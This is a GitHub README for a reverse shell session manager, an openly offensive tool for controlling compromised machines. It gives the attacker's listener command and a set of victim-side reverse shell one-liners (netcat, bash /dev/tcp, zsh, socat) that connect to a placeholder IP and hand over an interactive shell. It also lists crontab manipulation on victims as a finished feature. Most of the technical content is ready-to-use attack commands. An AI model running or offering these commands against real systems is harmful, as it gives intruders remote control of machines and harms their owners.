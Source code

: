 # Reverse Shell Manager

```
A multiple reverse shell sessions/clients manager via terminal
```
**This project will not continue develope anymore.**  
**The reborn project (Platypus) will be released at https://github.com/WangYihang/Platypus**  

#### [**Platypus**](https://github.com/WangYihang/Platypus)
  * More stable
  * More features
  * Upgrade common reverse shell session to full interactive seession
  * Reverse shell as a Service
  * RESTful API
  * ...

#### Attacker side
```
python Reverse-Shell-Manager.py 0.0.0.0 4444
```
#### Victims sides
> Linux
```
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```
> Windows
```
nc.exe -e /bin/bash 1.3.3.7 4444
```

#### Simple Example Video 

[![asciicast](https://asciinema.org/a/143640.png)](https://asciinema.org/a/143640)

#### YouTube Example
> https://youtu.be/AoS-q1MGw30  


#### TODO
- [x] Add an item to crontab
- [x] Delete an item from crontab
- [ ] create a class to hold Master
- [ ] select/epoll

#### Bugs

- [x] A victim is connected but didn't add to online list
- [ ] socket stuck on rece()

#### LICENSE

```
THE DRINKWARE LICENSE

<wangyihanger@gmail.com> wrote this file. As long as 
you retain this notice you can do whatever you want 
with this stuff. If we meet some day, and you think 
this stuff is worth it, you can buy me the following
drink(s) in return.

Red Bull
JDB
Coffee
Sprite
Cola
Harbin Beer
etc

Wang Yihang
```
